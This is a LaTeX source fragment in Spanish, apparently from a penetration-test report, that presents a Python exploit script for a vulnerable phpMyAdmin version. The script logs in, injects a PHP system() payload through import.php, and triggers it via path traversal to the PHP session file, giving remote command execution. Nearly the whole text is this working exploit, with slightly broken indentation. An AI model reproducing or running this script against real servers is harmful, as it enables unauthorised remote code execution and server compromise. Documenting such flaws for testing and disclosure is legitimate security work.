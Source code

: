 \documentclass[a4paper]{article} %
\begin{document}
  \vspace{0.2cm}
  Entre ellas, una la cual puede permitir a un atacante mal intencionado \textbf{ejecutar código remoto} en el servidor. 

  \clearpage 

  A continuación se comparte el script en Python3 el cual fue empleado para ejecutar comandos remotos en el servidor: 

  \vspace{0.3cm}
  \begin{lstlisting}[language=Python, caption=Exploit para la versión vulnerable de PhpMyAdmin]
  
    #!/usr/bin/env python

    import re, requests, sys,html

    def get_token(content):
      s = re.search('token"\s*value="(.*?)"', content)
      token = html.unescape(s.group(1))
    return token

    ipaddr = sys.argv[1]
    port = sys.argv[2]
    path = sys.argv[3]
    username = sys.argv[4]
    password = sys.argv[5]
    command = sys.argv[6]

    url = "http://{}:{}{}".format(ipaddr,port,path)
    url1 = url + "/index.php"
    r = requests.get(url1)
    content = r.content.decode('utf-8')

    s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
    version = s.group(1)
    cookies = r.cookies
    token = get_token(content)

    # 2nd req: login
    p = {'token': token, 'pma_username': username, 'pma_password': password}
    r = requests.post(url1, cookies = cookies, data = p)
    content = r.content.decode('utf-8')
    s = re.search('logged_in:(\w+),', content)
    logged_in = s.group(1)

    cookies = r.cookies
    token = get_token(content)

    url2 = url + "/import.php"
    payload = '''select '<?php system("{}") ?>';'''.format(command)
    p = {'table':'', 'token': token, 'sql_query': payload }
    r = requests.post(url2, cookies = cookies, data = p)
    # 4th req: execute payload
    session_id = cookies.get_dict()['phpMyAdmin']
    url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)
    r = requests.get(url3, cookies = cookies)

    content = r.content.decode('utf-8', errors="replace")
    s = re.search("select '(.*?)\n'", content, re.DOTALL)
  
  \end{lstlisting}
  \clearpage 
\end{document}
